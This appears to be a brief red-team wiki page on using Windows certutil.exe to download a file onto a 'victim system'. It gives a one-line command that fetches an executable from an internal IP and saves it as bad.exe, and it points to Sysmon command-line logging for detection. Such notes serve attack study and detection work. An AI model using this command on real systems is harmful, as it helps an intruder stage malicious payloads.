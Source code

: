 ```yaml
---
description: Downloading additional files to the victim system using native OS binary.
---
```


# Downloading Files with Certutil

## Execution

```csharp
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

![](../.gitbook/assets/certutil-download.gif)

## Observations

Sysmon commandling logging is a good place to start for monitoring suspicious `certutil.exe` behaviour:

![](../.gitbook/assets/certutil-sysmon.png)

